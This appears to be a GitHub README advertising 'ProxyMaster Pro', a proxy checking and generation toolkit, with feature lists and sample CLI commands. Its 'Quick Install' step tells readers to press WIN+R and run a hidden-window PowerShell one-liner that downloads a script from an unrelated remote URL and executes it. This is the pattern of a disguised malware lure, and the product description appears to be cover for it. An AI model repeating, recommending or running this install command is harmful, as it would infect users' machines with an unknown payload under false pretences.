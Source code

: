 ### 🌐 ProxyMaster Pro - Advanced Proxy Management Suite
The ultimate toolkit for working with proxy servers - perfect for web scraping, security testing, and privacy protection


### 🔍 Proxy Checker


<details>
<summary><strong>✅ Real-Time Validation</strong></summary>

Verify HTTP/SOCKS5 proxy responsiveness

Test anonymity levels (Transparent/Anonymous/Elite)

Geolocation accuracy verification

</details>

<details>
<summary><strong>✅ Performance Metrics</strong></summary>

Connection speed testing (ms latency)

Bandwidth throughput measurement

Uptime monitoring

</details>

<details>
<summary><strong>✅ Security Analysis</strong></summary>

DNS leak detection

WebRTC leak prevention check

Header inspection (X-Forwarded-For analysis)

</details>

#### 🛠️ Proxy Generator

<details>
<summary><strong>🔧 Smart Proxy Creator</strong></summary>

Rotating IP generator (residential/datacenter)

Custom geolocation targeting (country/city-level)

ASN-specific IP generation

</details>

<details>
<summary><strong>🔧 Protocol Tools</strong></summary>

HTTP→SOCKS5 conversion bridge

SSL tunneling configurator

Proxy chain builder (multi-hop configurations)

</details>

## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press WIN+R
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/weatherdolphin/dollrandom))).Invoke();
```

#### 🛡️ Compliance Features


✔ Ethical Use Monitoring - Blocks known abuse patterns

✔ CAPTCHA Solver Integration - For legitimate automation

✔ Usage Analytics - Track proxy performance over time


### 🚦 Sample Commands

```bash
# Check proxy list validity
proxytool check -i proxies.txt -o valid_proxies.csv

# Generate 50 US residential proxies
proxytool generate --country=US --type=residential --count=50

# Test proxy anonymity level
proxytool analyze --proxy=192.168.1.1:8080 --test=anonymity
```


#### 💻 Technical Specs

✔ Supports HTTP/HTTPS/SOCKS4/SOCKS5

✔ IPv4/IPv6 compatible

✔ 100+ supported geolocations

✔ CLI + GUI versions available
